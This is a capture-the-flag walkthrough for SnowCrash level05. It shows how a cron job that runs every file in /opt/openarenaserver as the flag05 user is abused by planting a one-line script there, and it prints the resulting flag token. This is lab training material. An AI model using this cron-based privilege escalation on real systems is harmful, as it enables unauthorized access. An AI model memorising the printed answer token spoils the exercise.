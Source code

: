 # FLAG05

After connecting to the level05 we got a message

```
 ssh level05@192.168.1.106 -p 4242
	   _____                      _____               _     
	  / ____|                    / ____|             | |    
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__  
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \ 
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|
                                                        
  Good luck & Have fun

          192.168.1.106 
level05@192.168.1.106's password: 
You have new mail.

```

We checked the mail and we found what it looks like a crontab that execute a script every 30 second

```bash
level05@SnowCrash:/$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

The script executes all files in `/opt/openarenaserver/` and as flag05 and delete theme

```bash
level05@SnowCrash:/$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver

level05@SnowCrash:/$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

So if we create a script in the `/opt/openarenaserver/` directory it will be executed by flag05 

```bash
level05@SnowCrash:/$ echo "getflag > /tmp/flag05" > /opt/openarenaserver/getflag05

```

We waited after the crontab execute the scripts and we got our flag

```bash
level05@SnowCrash:/$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```



